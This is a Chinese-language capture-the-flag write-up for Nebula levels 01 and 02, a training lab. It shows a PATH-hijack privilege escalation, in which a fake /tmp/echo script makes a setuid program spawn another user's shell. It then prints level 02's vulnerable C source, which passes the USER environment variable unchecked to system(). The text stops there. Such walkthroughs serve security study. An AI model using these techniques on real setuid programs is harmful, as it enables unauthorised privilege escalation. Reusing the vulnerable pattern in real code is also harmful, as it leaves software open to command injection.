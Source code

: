 程序位于 `/home/flag01/flag01`, 我认为该题的关键点在于文件的s权限，

```
$ chmod 4750 flag01
$ ll
-rwsr-x--- flag01 level01       flag01

```

uid, gid现在还不是了解的很清楚，以后再研究。

在没有设置s权限的情况下，运行flag01的uid和gid都为运行该程序用户的id，(可在/etc/passwd中查看)，但当设置了s权限之后，uid则变为该文件所属用户的uid，也就是说，任意用户(有权限)运行该文件，uid都为flag01的uid。

这有啥意义呢？ 该游戏的目的是使用levelxx用户通过flagxx程序get flagxx用户shell，运行getflag，该程序最后使用了system函数运行系统命令，因为设置了s权限，所以是以该文件所有者的身份运行命令，所以有两个思路，一个是直接运行getflag，另一个是运行`/bin/bash` get flag01用户的shell，这里我们用第二种方法。

`$ /usr/bin/env echo` 是从左往右搜索 $PATH环境变量中的路径，寻找echo命令，则我们可以在环境变量的最左边添加一个路径，里面有一个我们自己写的echo命令:

```
level01@neula:~$ PATH=/tmp:$PATH
level01@neula:~$ vim /tmp/echo
#!/bin/bash
/bin/bash
:wq
level01@neula:~$ chmod +x /tmp/echo
level01@neula:~$ cd /home/flag01
level01@neula:~$ ./flag01
flag01@neula:~$ getflag
You have successfully executed getflag on a target account
```

# Level02

这题一样，源码审计：

```
//flag02.c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    char *buffer;
    
    gid_t gid;
    uid_t uid;

    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    buffer = NULL;
    
    asprintf($buffer, "/bin/echo %s is cool", getenv("USER"));
    printf("about to call system(\"%s\")\n", buffer);
    
    system(buffer);
}
```
